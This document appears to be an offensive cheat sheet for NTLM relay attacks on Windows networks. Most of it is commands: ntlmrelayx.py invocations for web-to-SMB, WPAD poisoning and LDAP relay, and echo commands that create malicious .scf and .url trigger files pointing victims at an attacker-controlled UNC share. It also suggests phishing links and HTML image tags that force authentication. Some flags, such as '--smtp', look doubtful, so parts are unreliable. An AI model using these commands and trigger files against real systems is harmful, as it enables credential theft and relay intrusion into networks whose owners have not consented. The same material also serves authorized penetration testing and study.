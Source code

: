 ## Common Attack Scenarios

### Web-to-SMB Relay
```bash
# Set up HTTP server for relay
python3 ntlmrelayx.py -t 192.168.1.100 -w -smb2support

# Social engineering: Send link to http://attacker_ip/share
# Or embed in HTML: <img src="http://attacker_ip/image.jpg">
```

### WPAD Poisoning Attack
```bash
# Poison WPAD requests and relay
python3 ntlmrelayx.py -t 192.168.1.100 -wh 192.168.1.50 -smb2support

# Combine with DHCP spoofing for better results
```

### Cross-Protocol Relay
```bash
# LDAP to SMB relay for AD enumeration
python3 ntlmrelayx.py -t ldap://dc.domain.com -smb2support

# SMTP to SMB relay
python3 ntlmrelayx.py -t 192.168.1.100 --smtp -smb2support
```

## Authentication Triggers

### Common Triggers for NTLM Authentication
1. **UNC Paths**: `\\attacker_ip\share`
2. **Web Requests**: `http://attacker_ip/resource`
3. **SCF Files**: Desktop.ini, folder.scf in network shares
4. **Office Documents**: Embedded UNC paths in documents
5. **Email HTML**: `<img>` tags with UNC paths
6. **Shortcut Files**: .lnk files with UNC paths

### Creating Trigger Files
```bash
# Create SCF file for SMB authentication
echo '[Shell]
Command=2
IconFile=\\attacker_ip\share\icon.ico
[Taskbar]
Command=ToggleDesktop' > folder.scf

# Create malicious shortcut
echo '[InternetShortcut]
URL=\\attacker_ip\share' > malicious.url
```
